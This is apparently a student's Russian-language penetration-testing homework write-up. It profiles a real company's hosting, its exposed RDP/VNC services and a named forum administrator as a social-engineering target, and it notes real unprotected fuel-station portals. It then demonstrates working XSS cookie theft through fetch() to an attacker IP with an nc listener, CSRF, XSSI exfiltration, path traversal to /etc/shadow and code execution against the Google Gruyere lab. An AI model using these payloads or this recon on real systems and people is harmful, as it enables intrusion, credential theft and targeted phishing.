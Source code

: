 # «Penetration Testing. Часть 1»

[Задание](https://github.com/netology-code/ibdef-homeworks/tree/master/06_pentest)


## Задание 1

Целью для поисков выбрал компанию-производителя, продуктами которой я пользуюсь каждый день, для работы.
Называются они "Автоматика плюс"

[Их сайт](http://www.automatikaplus.ru/default.aspx)

Решил найти IP адрес их сайта, ```nslookup www.automatikaplus.ru ```, получаю ```188.225.36.85```. В гугле нахожу информацию, что это хостинг из Санкт-Петербурга, значит сервер стоит не у них, а они пользуются хостингом (физически они находятся в Пензе).
С помощью shodan посмотрел, что сервер на Windows, там открыт 443 порт и лежит сертификат, который не доступен , если просто заходить на сайт, так же открыты RDP, VNC сервисы для управления этим сервером. 

На сайте есть ссылка на форум. Решил поискать администраторов форума. loginov_d - один из самых активных участников форума, просто гуглю его ник. Нахожу его [личный сайт](http://www.loginovprojects.ru/index.php?page=simple). Сайт хостится на том же IP, что и основной сайт автоматики. На его личном сайте есть комментарии, где с 2005 года с ним разговаривают его друзья и видимо одногруппники, студенты. Можно использовать их email, так как они в открытом виде там лежат и использовать социальную инженерию, направив её на администратора. 

<details>
  <summary>**Тут дополнительно, не очень применимо к самой автоматике**</summary>
  
Так как я работаю с их продуктом, знаю о уязвимости "из первых рук". Проблема в мисконфигурации, если не указать отдельно пароль администратора одного из сервисов, он доступен (неявно) из интернета. т.е. если люди не пользуются этим сервисом, либо не знают о нем и не указывают пароль по этим причинам - можно получить доступ ко ВСЕМ транзакциям с контрагентами. Решил проверить, есть ли где-то такой личный кабинет. 

![data/OUPS.png](data/OUPS.png)

Доступно 4 кабинета, у первого, если после адреса написать /azs/ (это доступ к веб сервису не для клиентов) нет пароля администратора. Проверять, есть ли там транзакции не стал, на всякий случай. 
IP принадлежит Братску. В Братске не так много заправок. 

![data/map.png](data/map.png)
У крупных брендовых заправок не может быть именно этого сервиса, остались "братский бензин" и "илим-роско". У первых есть этот сервис. Ребят предупредил, вдруг им интересно. 

![data/предупредил.png](data/предупредил.png)

</details>

В ходе проделанной работы я нашел мало данных, связанных с самой организацией, но думаю всю эту информацию можно использовать совместно с социальной инженерией, чтобы получить другую информацию, полезную для пентеста. 

## Задание 2

### XSS

Находится автоматически с помощью OWASP ZAP.

```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=%3C%2Fdiv%3E%3CscrIpt%3Ealert%281%29%3B%3C%2FscRipt%3E%3Cdiv%3E
```

Немного изменяю ссылку, чтобы вместо 1, нам выводились на экран cookie:
```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=%3C%2Fdiv%3E%3CscrIpt%3Ealert%28document.cookie%29%3B%3C%2FscRipt%3E%3Cdiv%3E
```
Результат:

![data/c1.png](data/c1.png)

Как реализовать эту атаку в реальной жизни: 
1) Немного изменяем ссылку, чтобы вместо алерта, сервер сам отправлял нам информацию (с помощью функции fetch)
```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=%3C%2Fdiv%3E%3CscrIpt%3Efetch(%27http://10.10.58.248:9001?cookie=%27%2Bbtoa%28document.cookie%29%29%3B%3C%2FscRipt%3E%3Cdiv%3E
```
2) Отправляем ссылку атакуемому.
3) Запускаем на нашем сервере ``` nc -nlvp 9001 ```
4) Когда атакуемый перейдет по ссылке, мы получим файлы cookie.

Результат:

![data/c2.png](data/c2.png)


### XSRF

Находится автоматически с помощью OWASP ZAP.

Чтобы проэксплуатировать эту уязвимость, нужно заставить атакуемого перейти по ссылкам с другого сайта, из почты и т.д.

Продемонстрирую:

1) Создаём страницу:
```html
<h1>CSRF</h1>

<a href="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/newsnippet2?snippet=I DONT WANT THIS SNIPPET">Click Me</a>

<a href="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=0">Delete Me</a>

```
2) Страница

![data/SN1.png](data/SN1.png)

3) Результат добавления текста

![data/SN2.png](data/SN2.png)

4) Результат удаления

![data/SN3.png](data/SN3.png)

### XSSI

В соответствии с [этой статьёй](https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion), чтобы проэксплуатировать XSSI, нужно проанализировать .js скрипты на атакуемом сайте. На этом сайте все скрипты ссылаются на .../lib.js
Принцип атаки: мы берем другой сайт, ссылаемся в нем на скрипт атакуемого сайта. Следующей строчкой вызываем alert(<тут нужная нам переменная из атакуемого сайта>). Значит нужно проанализировать /lib.js. Я не смог найти в этом скрипте переменных с "небезопасными" значениями. 
Но воспользовался подсказкой и там указано, что существует скрипт feed.gtl. Который содержит "private snippet". 

1) Делаем страницу:

```html
<script>
function _feed(s) {
  alert(s['private_snippet']);
}
</script>
<script src="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/feed.gtl" type="text/javascript"></script>
```

2)  Создаем пользователя atakuemiy. И задаём ему private snippet. 

![data/atakuemiy.png](data/atakuemiy.png)

3) Создаем пользователя attacker, Загружаем страницу из пункта 1. Располагаем её в профиле.
ВЫ
4) Логинимся от пользователя atakuemiy. Видим, что если атакуемый перейдет по ссылке в профиле атакующего, алерт выдаёт private snippet. Следовательно можно алерт заменить на fetch, как в первом пункте и отправить эту информацию куда угодно на сервер атакующего. 

![data/c4.png](data/c4.png) 

5) Пример:

```html
<script>
function _feed(s) {
  fetch('http://10.10.58.248:9001?snippet='+btoa(s['private_snippet']));
}
</script>
<script src="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/feed.gtl" type="text/javascript"></script>
```
6) Результат:

![data/c5.png](data/c5.png)

### Path Traversal

Эта атака пытается получить доступ к файлам и папкам, которые находятся вне папок, доступных "легально". На сервер можно загрузить файлы, которые потом доступны по адресу: .../username/file.ext

Я нашел [репозиторий](https://github.com/omurugur/Path_Travelsal_Payload_List/blob/master/Payload/Dp.txt) который содержит пэйлоад для этой атаки, с помощью фьюзера у owasp-zap нахожу, что часть из них работает, например этот:

```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/test4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

![data/P-T1.png](data/P-T1.png)

```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/test4//..%5C../..%5C../..%5C../..%5C../..%5C../..%5C../etc/shadow
```
![data/P-T2.png](data/P-T2.png)

### Code Execution
Самостоятельно я эту уязвимость найти не смог. Принцип такой, что мы можем либо создать пользователя  ```..``` и загрузить туда файл ```gtl.py```. Либо сразу загрузить файл ```../gtl.py```. Так как сайт подвержен DOS атакам, мы перезапускаем сервер и код из файла ```gtl.py``` выполнится.

Пример:
1) На сайте лежит файлы с расширением .py

![data/c6.png](data/c6.png)


2) Попробуем создать пользователя .. и загрузить на сервер измененный файл data.py

![data/dotdot.png](data/dotdot.png "data/dotdot.png")

3) Перезагружаем сервер ```https://google-gruyere.appspot.com/632978317648096391885908153107952987817/quitserver```

4) Сервис нам сообщает, что сервер owned и восстанавливает .py файлы

![data/owned.png](data/owned.png)

